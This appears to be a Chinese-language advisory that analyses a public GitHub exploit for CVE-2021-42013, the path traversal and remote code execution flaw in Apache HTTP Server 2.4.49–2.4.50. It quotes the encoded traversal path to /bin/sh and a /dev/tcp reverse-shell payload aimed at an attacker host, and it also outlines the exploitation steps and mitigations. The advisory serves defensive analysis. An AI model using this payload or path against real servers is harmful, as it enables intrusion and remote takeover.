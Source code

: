 ## CVE-2021-42013 - Apache HTTP Server Path Traversal and Remote Code Execution

**漏洞编号:** CVE-2021-42013

**漏洞类型:** 路径遍历和远程代码执行

**影响应用:** Apache HTTP Server

**危害等级:** 高危，可能导致敏感信息泄露和远程代码执行

**影响版本:** 2.4.49, 2.4.50

**利用条件:** 目标服务器运行受影响的 Apache 版本，且允许 CGI 脚本执行，Alias-like directives配置不当。

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2021-42013 是一个存在于 Apache HTTP Server 2.4.49 和 2.4.50 版本中的路径遍历和远程代码执行漏洞。该漏洞是 CVE-2021-41773 的不完整修复。攻击者可以利用该漏洞通过构造恶意的 URL，绕过 Alias-like 指令的限制，访问服务器上受限制的文件。如果目标服务器配置允许 CGI 脚本执行，攻击者可以通过路径遍历执行任意代码。 

**有效性：** 提供的 Python 脚本 `CVE-2021-42013.py` 看起来有效，因为它实现了漏洞的利用过程。

该脚本首先尝试测试目标是否易受攻击，然后利用该漏洞通过 curl 命令发送一个 reverse shell payload。它还在本地启动一个监听器来接收 shell 连接。脚本中使用了 `subprocess.check_output` 执行 curl 命令，并使用线程来同时运行漏洞利用和监听器。

**投毒风险：**

分析提供的代码，存在一些小的投毒风险:

1.  **硬编码的路径:** 脚本中使用了硬编码的 `/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh` 路径。虽然这是漏洞利用的一部分，但如果攻击者修改此路径，可能会导致脚本在非预期目标上执行。
2.  **Reverse Shell Payload:** 使用了 `bash -c '0<&124-;exec 124<>/dev/tcp/{lhost}/{lport};sh <&124 >&124 2>&124'` 作为反向 shell payload。这个 payload 相对常见，但如果攻击者修改此 payload，可能会执行恶意命令，例如下载并执行其他恶意软件。
3.  **User-Agent:**  使用了特定的User-Agent字符串，这可能被用于识别和阻止攻击。攻击者可能会修改 User-Agent 来绕过检测。
4.  **端口硬编码:** 监听端口硬编码为4444,如果目标网络存在端口过滤,或者其他服务占用了4444端口,可能会利用失败,攻击者可能修改端口来绕过防御.

**利用方式：**

1.  **路径遍历:** 攻击者构造包含 `/.%%32%65/.%%32%65` 序列的恶意 URL，绕过 Apache 的路径规范化，从而访问位于 Alias-like 指令配置目录之外的文件。
2.  **CGI 执行:** 如果目标服务器的 `/cgi-bin/` 目录配置为允许执行 CGI 脚本，攻击者可以通过路径遍历访问 `sh` 或其他 shell 解释器。
3.  **远程代码执行:** 攻击者通过构造特定的请求，利用 `sh` 解释器执行任意 shell 命令。通常，攻击者会执行反向 shell 命令，从而在攻击者控制的机器上获得 shell 访问权限。

**缓解措施：**

*   升级到不受漏洞影响的 Apache HTTP Server 版本 (>= 2.4.51)。
*   禁用 CGI 脚本执行，除非绝对必要。
*   配置 Alias-like 指令时，确保使用 `Require all denied` 或其他适当的访问控制，限制对配置目录之外的文件的访问。
*   使用 Web 应用防火墙 (WAF) 检测和阻止包含路径遍历序列的恶意请求。


**项目地址:** [K3ysTr0K3R/CVE-2021-42013-EXPLOIT](https://github.com/K3ysTr0K3R/CVE-2021-42013-EXPLOIT)

**漏洞详情:** [CVE-2021-42013](https://nvd.nist.gov/vuln/detail/CVE-2021-42013)